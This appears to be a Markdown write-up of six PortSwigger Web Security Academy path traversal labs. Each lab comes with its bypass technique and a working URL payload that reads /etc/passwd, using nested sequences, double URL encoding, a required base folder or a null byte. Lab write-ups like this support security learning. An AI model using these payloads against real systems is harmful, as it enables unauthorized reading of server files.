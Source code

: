 ```yaml
---
title: PortSwigger - Path Traversal
date: '2024-07-09'
tags: ['PortSwigger', 'PortSwigger Labs', 'Web Security']
draft: false
summary: 
---
```


#### File path traversal, simple case
In this lab we check the source of the page and find the following url:

```
https://0aae00e203902c8181cc6bd200dc00f0.web-security-academy.net/image?filename=15.jpg
```

This url is being used to load an image. We can inject path traversal payload here.

```
https://0aae00e203902c8181cc6bd200dc00f0.web-security-academy.net/image?filename=../../../../../../../etc/passwd
```

#### File path traversal, traversal sequences blocked with absolute path bypass
If an application strips or blocks directory traversal sequences from the user-supplied filename, it might be possible to bypass the defense using a variety of techniques.

You might be able to use an absolute path from the filesystem root, such as `filename=/etc/passwd`, to directly reference a file without using any traversal sequences.

In this lab we used the absolute path to access the file as directory traversal `../../` was getting stripped at the backend.

```
https://0a40003d04ba83ba809de434007a00bb.web-security-academy.net/image?filename=/etc/passwd
```

#### File path traversal, traversal sequences stripped non-recursively
You might be able to use nested traversal sequences, such as `....//` or `....\/`. These revert to simple traversal sequences when the inner sequence is stripped.

The server will strip one `../` and it will leave the other `../`

We solved this lab using the following url :

```
https://0acd0074046e76c58040357a00c100b4.web-security-academy.net/image?filename=....//....//....//etc/passwd
```

#### File path traversal, traversal sequences stripped with superfluous URL-decode
In some cases web servers strip all kind of path traversals. These can be bypassed using
- Url encoding :  `%2e%2e%2f`
- Double url encoding the `../` characters : `%252e%252e%252f`
- Various non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`, may also work.

In this case the second method worked

```
https://0a6800b704219f5280b362ee00430070.web-security-academy.net/image?filename=..%252f..%252f..%252fetc/passwd
```

#### File path traversal, validation of start of path
An application may require the user-supplied filename to start with the expected base folder, such as `/var/www/images`. In this case, it might be possible to include the required base folder followed by suitable traversal sequences. For example: `filename=/var/www/images/../../../etc/passwd`.


```
https://0a81002a03dc4624810afcda006f00a3.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd
```

#### File path traversal, validation of file extension with null byte bypass
An application may require the user-supplied filename to end with an expected file extension, such as `.png`. In this case, it might be possible to use a null byte to effectively terminate the file path before the required extension. For example: `filename=../../../etc/passwd%00.png`.

```
https://0a58008b046d8bd880bd3054006f00bf.web-security-academy.net/image?filename=../../../etc/passwd%00.png
```

